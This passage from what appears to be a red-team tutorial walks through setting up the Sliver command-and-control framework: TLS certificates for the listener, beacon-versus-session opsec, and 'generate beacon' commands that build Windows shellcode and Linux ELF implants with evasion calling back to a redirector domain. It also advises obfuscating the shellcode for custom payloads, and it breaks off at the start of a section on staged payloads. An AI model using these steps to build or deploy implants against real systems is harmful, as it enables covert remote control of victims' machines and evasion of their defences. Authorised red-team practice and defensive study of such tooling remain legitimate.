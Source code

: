 To create your SSL/TLS certificate for HTTPS communications with your listener, you can use whatever service/app you prefer. LetsEncrypt is probably the most common method, and recently I started using AWS Certificate Manager (ACM) certs.<br />

To automate this with LetsEncrypt, I modified one of RedSiege's script for setting up a cert Cobalt Strike and made it compatible with Sliver ([Link HERE](https://github.com/wsummerhill/Automation-Scripts/blob/main/HttpsGenericC2DoneRight.sh)).<br />

Drop the `HttpsGenericC2DoneRight.sh` script on your Sliver teamserver and run it with Sudo privileges. Enter in your C2 domain (with an A record pointing to your C2 server) and any private key password:
![image](https://github.com/wsummerhill/wsummerhill.github.io/assets/35749735/fd02dfbc-dc55-4ad4-83d9-1bea28e1a12e)

If everything works properly, the script should output you a domain store file, cert.pem and privkey.pem files in your `/root` directory. Copy these files to your local system with your Sliver client installed.
![image](https://github.com/wsummerhill/wsummerhill.github.io/assets/35749735/a57e5b26-eee7-4556-aa19-5fa3b8307204)

## Beacons

Sliver C2 implants communicate in 2 different ways: **Beacons** or **Sessions**. For red teams and better opsec we will always be using Beacons which use asynchronous communications that periodically check-in at a certain time interval. The alternative would be Sessions which use an established interactive mode connection (noisy and poor opsec). <br />
Beacons function the same way Cobalt Strike communication channels work using asynchronous connections. The one downside of Sliver is that it doesn't have a sleep mask like Cobalt Strike does, meaning the Beacon code won't be obfuscated/encrypted in-memory while sleeping between connections. 

To create new Beacon shellcode for Windows using your HTTPS redirector (you previously set this up right?), use the following command:<br />
`generate beacon --http https:/sliver-redirector.com --save /output/path/sliver-shellcode64.bin --seconds 60 --os windows --format shellcode --evasion`

You can then encode/encrypt/obfuscate your output shellcode however you like and create a custom payload using it!

If you are up against a Linux environment and want to create an out-of-the-box Linux binary payload (ELF file format), use this command:<br />
`generate beacon --http https:/sliver-redirector.com --save /output/folder/ --seconds 60 --os linux --evasion`

## Staged Payloads

Useful links:
- [https://github.com/BishopFox/sliver/wiki/Stagers](https://github.com/BishopFox/sliver/wiki/Stagers)
- [https://dominicbreuker.com/post/learning_sliver_c2_06_stagers/](https://dominicbreuker.com/post/learning_sliver_c2_06_stagers/)

To create staged payloads, we'll need to create two things: a **profile** and a **staged listener**. The profile will act as a configuration for our stage 2 payoad, and the staged listener will be a stage 1 listener/payload
